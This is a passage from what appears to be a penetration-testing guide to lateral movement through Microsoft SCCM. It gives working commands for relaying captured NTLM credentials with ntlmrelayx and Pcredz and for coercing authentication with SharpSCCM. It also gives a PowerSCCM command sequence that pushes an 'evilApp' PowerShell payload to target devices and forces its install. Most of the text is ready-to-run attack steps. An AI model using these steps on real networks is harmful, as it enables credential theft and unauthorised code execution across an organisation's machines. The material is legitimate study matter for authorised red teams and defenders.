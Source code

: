 **Step 3**: Deploy Application to target device

In this final step you can choose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
# Prep capturing server
## ntlmrelayx targeting 10.250.2.179
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179

# Also keep Pcredz running, just in case
Pcredz -i enp0s8 -t
```
```powershell
# Run the attack
SharpSCCM.exe exec -rid  -r 
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...

![](<./assets/SCCM_Lateral_Movement_Execution_Step3_Trigger_Deployment.png>)

![](./assets/SCCM_Lateral_Movement_Execution_Step3_Capture_Authentication.png)


=== PowerSCCM

With sufficient rights on the central SCCM server (sufficient rights on WMI), it is possible to deploy applications or scripts on the Active Directory machines with [PowerSCCM](https://github.com/PowerShellMafia/PowerSCCM) (Powershell).

```powershell
# Create a SCCM Session via WMI with the Site Code
Find-SccmSiteCode -ComputerName SCCMServer
New-SccmSession -ComputerName SCCMServer -SiteCode  -ConnectionType WMI

# Retrieve the computers linked to the SCCM server
Get-SccmSession | Get-SccmComputer

# Create a computer collection
Get-SccmSession | New-SccmCollection -CollectionName "collection" -CollectionType "Device"

# Add computers to the collection
Get-SccmSession | Add-SccmDeviceToCollection -ComputerNameToAdd "target" -CollectionName "collection"

# Create an application to deploy
Get-SccmSession | New-SccmApplication -ApplicationName "evilApp" -PowerShellB64 ""

# Create an application deployment with the application and the collection previously created
Get-SccmSession | New-SccmApplicationDeployment -ApplicationName "evilApp" -AssignmentName "assig" -CollectionName "collection"

# Force the machine in the collection to check the application update (and force the install)
Get-SccmSession | Invoke-SCCMDeviceCheckin -CollectionName "collection"
```
